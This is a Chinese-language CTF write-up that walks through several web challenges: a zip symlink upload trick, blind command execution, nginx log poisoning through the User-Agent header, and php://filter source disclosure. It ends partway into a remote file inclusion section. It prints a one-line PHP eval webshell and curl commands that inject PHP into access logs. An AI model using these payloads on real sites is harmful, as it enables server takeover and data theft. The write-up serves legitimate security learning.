# 上周的做的题目的wp
## 2023国赛初赛Unzip
打开题目发现是一个文件上传,试图传一个webshell



上传后跳转到`/upload.php`

内容如下

```php
 <?php
error_reporting(0);
highlight_file(__FILE__);

$finfo = finfo_open(FILEINFO_MIME_TYPE);
if (finfo_file($finfo, $_FILES["file"]["tmp_name"]) === 'application/zip'){
    exec('cd /tmp && unzip -o ' . $_FILES["file"]["tmp_name"]);
};

//only this! 
```

看到了php的代码,老办法,先逐行翻译

第一行关闭报错第二行展示文件源码

接下来,把`finfo_open(FILEINFO_MIME_TYPE)`的值赋值给了变量`$finfo`

查阅资料得知

finfo_open()是一个文件检测函数,检测文件类型,且仅仅检测文件头

FILEINFO_MIME_TYPE是一个PHP预定义的常量,它的值是整数16.

传给finfo_open()函数时来让函数返回值只返回MIME 类型

MIME 类型是是标识文件格式的标准化字符串，由文件内容头部特征决定，格式为 主类型/子类型。

比如 image/jpeg   application/zip  .....

接下来
```php
if (finfo_file($finfo, $_FILES["file"]["tmp_name"]) === 'application/zip')
```
这里做了一个判断,判断上传的文件的MIME 类型是否严格等于'application/zip'

接下来,最重要的是,如果上述成立,执行cd /tmp && unzip -o (你传的文件的名字)

这里让我想到了以前遇到的ping [输入网站]的命令注入但是**,这里的文件名并不可控**

但是，可以使用软链接的方式把webshell解压到网站的目录下

首先，创建一个指向/var/www/html的软链接html_link再把它打包到zip文件里并上传



上传完以后再创建一个压缩包

里面有一个html_link目录，webshell在html_link目录里



上传后就成功拿到webshell。

**为什么这样可行呢，因为 unzip 默认遇到软链接目录时，会顺着链接把文件写进链接指向的真实位置，而题目里的 cd /tmp && unzip -o 正好给了我们一次在 /tmp 里先放软链接、再让解压过程顺着软链接把 webshell 写进 /var/www/html 的机会。**

webshell内容是

```php
<?php @eval($_POST[1]); ?>
```

改post `1=system('env');`

~~打极客大赛打的每次必看环境变量~~



没有发现，那就看根目录



看到flag，直接cat



解出。

## ctfshow web应用安全与防护_反弹shell构造
这道题打开发现是命令执行

😭没有回显！！！

但是可以用 > 来写文件

```bash
ls > 1.txt
```



/1.txt直接访问



flag.php 很可疑


```bash
cat flag.php > 1.txt
```

直接访问



## ctfshow web应用安全与防护_日志注入 文件包含
打开题会发现是一个任意文件包含的界面

可以从404页面看出服务器用的是nginx

nginx日志在/var/log/nginx/access.log

输入后

果然。我们直接控制useragent来执行代码(因为电脑出问题了现在在办公电脑上做题所以没有hackbar，但是！可以curl)

```powershell
curl "https://cfdf4649-9d0d-46f4-877f-655af0975d5d.challenge.ctf.show/" ^  -H "User-Agent: <?php system('env'); ?>"
```

先看环境变量

但是没有发现flag

```powershell
curl "https://cfdf4649-9d0d-46f4-877f-655af0975d5d.challenge.ctf.show/" ^  -H "User-Agent: <?php system('ls'); ?>"
```

发现线索

试图读取


```powershell
curl "https://cfdf4649-9d0d-46f4-877f-655af0975d5d.challenge.ctf.show/" ^  -H "User-Agent: <?php system('cat flag.php'); ?>"
```



CTF{php_access_l0g_lf1_is_fun}

## ctfshow web应用安全与防护_php://filter读取源码
<font style="color:rgb(33, 37, 41);">php://filter,这是php的伪协议之一</font>

<font style="color:rgb(33, 37, 41);">它不属于真实的文件系统路径，而是 PHP 内部实现的一种“流”，可以在读取或写入文件时，先对数据做一层过滤/转换。</font>

<font style="color:rgb(33, 37, 41);">格式为php://filter/read=<过滤器1>|<过滤器2>|.../resource=<目标文件></font>

| <font style="color:rgb(33, 37, 41);">参数名</font> | <font style="color:rgb(33, 37, 41);">含义</font> |
| --- | --- |
| `read=` | <font style="color:rgb(33, 37, 41);">读过滤器，可链式叠加</font> |
| `write=` | <font style="color:rgb(33, 37, 41);">写过滤器，可链式叠加</font> |
| `resource=` | <font style="color:rgb(33, 37, 41);">必填，指定要过滤的文件路径（可用绝对/相对路径，甚至 `php://input`等） |


过滤器包括

| 类别 | 过滤器名 | 作用 |
| --- | --- | --- |
| 字符串 | `string.rot13` | ROT13 变换 |
| 字符串 | `string.toupper` | 转大写 |
| 字符串 | `string.tolower` | 转小写 |
| 转换 | `convert.base64-encode/decode` | Base64 编解码 |
| 转换 | `convert.quoted-printable-encode/decode` | QP 编解码 |
| 压缩 | `zlib.deflate` / `zlib.inflate` | gzip 压缩/解压 |
| 加密 | `mcrypt.*`, `openssl.*` | 需要扩展，较少见 |


这里我们使用php://filter/convert.base64-encode/resource=index.php读源码


```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>PHP LFI/RFI Code Executor</title>
    <style>
        body {
            font-family: 'Arial', sans-serif;
            background: linear-gradient(135deg, #1e3c72, #2a5298);
            height: 100vh;
            display: flex;
            justify-content: center;
            align-items: center;
            margin: 0;
            color: white;
        }
        .container {
            background: rgba(255, 255, 255, 0.1);
            backdrop-filter: blur(10px);
            border-radius: 10px;
            padding: 2rem;
            width: 600px;
            box-shadow: 0 15px 30px rgba(0, 0, 0, 0.2);
            text-align: center;
        }
        .container h2 {
            margin-bottom: 1.5rem;
        }
        .form-group {
            margin-bottom: 1rem;
            text-align: left;
        }
        .form-group label {
            display: block;
            margin-bottom: 0.5rem;
            font-weight: bold;
        }
        .form-group textarea {
            width: 100%;
            padding: 0.8rem;
            border: none;
            border-radius: 5px;
            background: rgba(255, 255, 255, 0.2);
            color: white;
            min-height: 200px;
            font-family: monospace;
        }
        .form-group textarea:focus {
            outline: none;
            background: rgba(255, 255, 255, 0.3);
        }
        button {
            width: 100%;
            padding: 0.8rem;
            border: none;
            border-radius: 5px;
            background: #4CAF50;
            color: white;
            font-weight: bold;
            cursor: pointer;
            transition: background 0.3s;
        }
        button:hover {
            background: #45a049;
        }
        .result {
            margin-top: 1rem;
            padding: 0.8rem;
            border-radius: 5px;
            background: rgba(0, 0, 0, 0.3);
            text-align: left;
            white-space: pre-wrap;
            font-family: monospace;
            min-height: 100px;
            max-height: 300px;
            overflow-y: auto;
        }
    </style>
</head>
<body>
    <div class="container">
        <h2>PHP LFI/RFI Code Executor</h2>
        <form method="POST">
            <div class="form-group">
                <label for="file">Enter file path:</label>
                <textarea id="file" name="file" placeholder=""><?php 
                    if (isset($_POST['file'])) {
                        echo htmlspecialchars($_POST['file']);
                    }
                ?></textarea>
            </div>
            <button type="submit">Include file</button>
        </form>

        <?php if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['file'])): ?>
            <div class="form-group">
                <label>Include Result:</label>
                <div class="result"><?php
                    include "db.php";
                    function validate_file_contents($file) {

                        if(preg_match('/[^a-zA-Z0-9\/\+=]/', $file)){
                            return false;   
                        }
                        return true;
                    }

                    try {
                        // Validate input characters
                        if (preg_match('/log|nginx|access/', $_POST['file'])) {
                            throw new Exception('Invalid input. Please enter a valid file path.');
                        }
                        
                        ob_start();
                        echo file_get_contents($_POST['file']);
                        $output = ob_get_clean();
                        if(!validate_file_contents($output)){
                            throw new Exception('Invalid input. Please enter a valid file path.');
                        }else{
                            echo 'File contents:';
                            echo '<br>';
                            echo $output;
                        }
                       
                    } catch (Exception $e) {
                        echo 'Error: ' . htmlspecialchars($e->getMessage());
                    }
                ?></div>
            </div>
        <?php endif; ?>
    </div>
</body>
</html>
```

 include "db.php";这一行很可疑

试图读取db.php

<font style="color:rgba(0, 0, 0, 0.9);background-color:rgba(0, 0, 0, 0.03);"></font>

```html
php://filter/read=convert.base64-encode/resource=db.php
```



解密后

CTF{3ecret_passw0rd_here}

## <font style="color:rgb(33, 37, 41);">ctfshow web应用安全与防护_远程文件包含（RFI）</font>
试了一下本地文件，好像不行，

既然是远程文件包含，，

视图用它读取自己blog上面的文件

